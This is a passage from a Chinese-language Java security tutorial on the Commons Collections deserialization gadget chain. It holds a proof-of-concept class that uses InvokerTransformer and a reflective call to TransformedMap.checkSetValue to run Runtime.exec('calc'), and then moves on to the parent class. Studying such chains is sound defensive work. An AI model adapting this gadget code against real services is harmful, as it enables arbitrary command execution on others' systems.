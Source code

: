 故我们控制这个valueTransformer为invokerTransformer类，然后调用这个checkSetValue方法就能弹计数器了，我们尝试构造一下POC

```java
public class Demo {  
    public static void main(String[] args)throws Exception {  
  
        Runtime r = Runtime.getRuntime();  

        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
  
        HashMap<Object,Object> hashMap = new HashMap<>();  
        Map decorateMap = TransformedMap.decorate(hashMap, null, invokerTransformer);  
        Class<TransformedMap> transformedMapClass = TransformedMap.class;  
        Method checkSetValueMethod = transformedMapClass.getDeclaredMethod("checkSetValue", Object.class);  
        checkSetValueMethod.setAccessible(true);  
        checkSetValueMethod.invoke(decorateMap,r);  
  
    }  
}
```

![13](/img/JavaSecurity/619ccf2f9b89eb2eec021e3d56b9f781_MD5.png)

可以看到这里成功了，然后再通过同样的方式去寻找哪个类方法中调用了checkSetValue方法，这里我们找到的是AbstractInputCheckedMapDecorator类也就是TransformedMap类的父类中

![14](/img/JavaSecurity/cd3cb3021f8cf626b39c12da0aca9652_MD5.png)
